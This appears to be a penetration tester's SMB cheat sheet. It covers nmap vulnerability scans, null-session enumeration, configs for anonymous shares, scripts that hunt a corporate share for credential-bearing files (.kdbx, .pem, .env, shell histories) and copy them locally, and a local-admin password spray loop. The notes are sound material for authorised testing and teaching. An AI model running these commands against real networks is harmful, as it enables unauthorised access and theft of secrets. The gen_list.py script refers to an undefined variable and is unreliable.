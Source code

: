 ```yaml
---
description: Server Message Block
---
```


# SMB

Check for SMB vulnerablities with Nmap:

```
$ sudo nmap -sV --script-args=unsafe=1 --script smb-os-discovery 10.10.13.37 -p139,445
$ sudo nmap -n -Pn -sV --script 'smb-vuln*' 10.10.13.37 -p445
```

Check if SMB Signing is enabled with CME:

```
$ cme smb smb.txt | grep -a 'signing:False'
```




## Fingerprint

* [https://book.hacktricks.xyz/pentesting/pentesting-smb#smb-server-version](https://book.hacktricks.xyz/pentesting/pentesting-smb#smb-server-version)

Enumerate SMB version for old versions of Samba (for security reasons modern clients will not initiate connection with legacy protocols in use):

```
$ sudo ngrep -i -d eth0 's.?a.?m.?b.?a.*[[:digit:]]' port 139
$ echo exit | smbclient -N -L 10.10.13.37 --option='client min protocol=LANMAN1'
```




## Mounting

Mount:

```
$ sudo mount -t cifs '//127.0.0.1/Users' /mnt/smb -v -o user=snovvcrash,[pass='Passw0rd!']
```

Status:

```
$ mount -v | grep 'type cifs'
$ df -k -F cifs
```

Unmount:

```
$ sudo umount /mnt/smb
```




## SMB Share with Null Authentication

- [https://sud0ru.ghost.io/what-makes-anonymous-pipes/](https://sud0ru.ghost.io/what-makes-anonymous-pipes/)

Create an SMB share allowing null authentication.



### Linux

{% code title="/etc/samba/smb.conf" %}
```
[global]
   map to guest = bad user
   server role = standalone server
   usershare allow guests = yes
   smb ports = 445

[smb]
   comment = Samba
   path = /srv/smb
   guest ok = yes
   read only = no
   browsable = yes
   force user = nobody
```
{% endcode %}

```
$ sudo service smbd restart
$ sudo chown -R nobody:root /srv/smb/
$ sudo chmod -R 777 /srv/smb/
```



### Windows

- [https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer](https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer)

```
PS > mkdir C:\share
PS > icacls C:\share\ /T /grant Anonymous` logon:r
PS > icacls C:\share\ /T /grant Everyone:r
PS > New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
PS > REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f  # this will overwrite existing NullSessionPipes
PS > REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
PS > REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
PS > REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
```




## Hunt for Shares & Content

- [https://github.com/blacklanternsecurity/MANSPIDER](https://github.com/blacklanternsecurity/MANSPIDER)
- [https://github.com/SnaffCon/Snaffler](https://github.com/SnaffCon/Snaffler)
- [https://github.com/mitchmoser/SharpShares](https://github.com/mitchmoser/SharpShares)
- [https://github.com/punk-security/SMBeagle](https://github.com/punk-security/SMBeagle)
- [https://github.com/p0dalirius/FindUncommonShares](https://github.com/p0dalirius/FindUncommonShares)



### Toy Example

Collect listing of files with size < 10 Mb:

```
PS > cd \\megacorp.local\share
PS > Get-ChildItem -Recurse -File | ? { $_.Length -lt 10MB } | select -ExpandProperty FullName | Out-File share.txt
```

Filter only files of interest based on their extensions, print the stats as a Python dict:

```
$ dos2unix share.txt
$ cat share.txt | grep -e '\.7z$' -e '\.bak$' -e '\.bash_history$' -e '\.bat$' -e '\.bz2$' -e '\.cfg$' -e '\.cmd$' -e '\.conf$' -e '\.csv$' -e '\.doc$' -e '\.docm$' -e '\.docx$' -e '\.env$' -e '\.gz$' -e '\.ini$' -e '\.json$' -e '\.kdbx$' -e '\.key$' -e '\.odp$' -e '\.ods$' -e '\.odt$' -e '\.old$' -e '\.ovpn$' -e '\.p12$' -e '\.pdf$' -e '\.pem$' -e '\.pfx$' -e '\.ppt$' -e '\.pptx$' -e '\.ps1$' -e '\.rar$' -e '\.rtf$' -e '\.sh$' -e '\.tar$' -e '\.txt$' -e '\.vbs$' -e '\.xls$' -e '\.xlsm$' -e '\.xlsx$' -e '\.xml$' -e '\.yaml$' -e '\.yml$' -e '\.zip$' -e '\.zsh_history$' \
| awk -F. '{print $NF}' \
| sort \
| uniq -c \
| awk 'BEGIN { d = "{" } { d = d sprintf("\x27.%s\x27: %s, ", $2, $1) } END { d = substr(d, 1, length(d)-2); print d "}" }'
```

Generate a list of wanted files (Python) and copy them locally preserving original directory structure (PS):

{% tabs %}
{% tab title="Gen List " %}
{% code title="gen_list.py" %}
```python
#!/usr/bin/env python3
# gen_list.py share.txt > files.txt

import sys
from pathlib import Path
from random import sample

stats = { ... }

with open(sys.argv[1]) as f:
    files = f.read().splitlines()

for suffix, count in stats.items():
    if count <= 1000:
        arr = [line for line in office if Path(line).suffix == suffix]
    else:
        arr = [line for line in office if Path(line).suffix == suffix]
        arr = sample(arr, 1000)
    for a in arr:
        print(a)
```
{% endcode %}
{% endtab %}
{% tab title="Get Files" %}
{% code title="get_files.ps1" %}
```powershell
$sourceBase = "\\megacorp.local\share"
$destinationBase = "C:\Share"
$fileList = Get-Content "C:\Share\files.txt" -Encoding UTF8

foreach ($file in $fileList) {
    $relativePath = $file.Substring($sourceBase.Length)
    $destFile = Join-Path $destinationBase $relativePath

    $destDir = Split-Path $destFile
    if (-not (Test-Path $destDir)) {
        New-Item -ItemType Directory -Path $destDir -Force | Out-Null
    }

    Copy-Item -Path $file -Destination $destFile -Force
}
```
{% endcode %}
{% endtab %}
{% endtabs %}




## Tools



### rpcclient

Check for null authentication:

```
$ rpcclient -N -L 127.0.0.1
```

With user creds:

```
$ rpcclient -U 'snovvcrash%Passw0rd!' 127.0.0.1
```



### smbclient(.py)

Check for null authentication:

```
$ smbclient -N -L 127.0.0.1
$ smbclient -N '\\127.0.0.1\Data'
```

With user creds:

```
$ smbclient -U snovvcrash '\\127.0.0.1\Users' 'Passw0rd!'
```

Get all files recursively:

```
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

Local admin spray:

```
$ cat use_c.cmd
use c$
ls Windows
$ for srv in `cat 445.tcp`; do proxychains4 -q smbclient.py Administrator:'Passw0rd!'@$srv -inputfile use_c.cmd |& grep Windows && echo $i; done
```



### smbmap

```
$ smbmap -H 127.0.0.1
$ smbmap -H 127.0.0.1 -u anonymous
$ smbmap -H 127.0.0.1 -u '' -p ''
$ smbmap -H 127.0.0.1 -u snovvcrash -p 'Passw0rd!' -R ShareName
$ smbmap -H 127.0.0.1 -u snovvcrash -p 'Passw0rd!' -R ShareName -A .
```
